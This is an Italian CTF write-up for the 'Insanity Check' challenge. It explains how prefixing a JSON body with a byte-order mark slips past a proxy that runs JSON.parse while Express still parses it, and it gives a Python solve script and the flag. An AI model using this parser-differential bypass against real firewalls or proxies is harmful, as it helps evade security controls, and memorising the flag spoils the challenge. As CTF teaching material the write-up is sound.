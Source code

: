 # Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [<url>](<url>).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
Lo scopo era creare un payload in json:

* Il `backend`, ovvero un parser JSON di Express, lo doveva riconoscere come un JSON contenente una chiave `dammilaflag`.
* Il `proxy` non doveva riuscire ad analizzarlo come un valore JSON a `JSON.parse(req.body)`.
  
In conclusione, il seguente JSON li soddisfa, dove `\ufeff` è un [BOM (Byte Order Mark)](https://en.wikipedia.org/wiki/Byte_order_mark):
```js
\ufeff{"dammilaflag": true}
```

I framework web spesso consentono l'aggiunta di un BOM all'inizio dei valori JSON. Ad esempio, Fastify ed Express controllano un BOM a:

* Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
* Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

D'altra parte, `JSON.parse` non consente un BOM:
```js
> JSON.parse('{"dammilaflag": true}')
{ dammilaflag: true }
> JSON.parse('\ufeff{"dammilaflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"dammil"... is not valid JSON
```

## Solve

```py
# Author: @benjamin

import requests

url = "http://localhost:4567"

payload = '\ufeff{"dammilaflag": true}'.encode('utf-8')  # UTF-8 BOM

r = requests.post(
    url,
    headers = {"Content-Type": "text/plain"},
    data = payload
)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
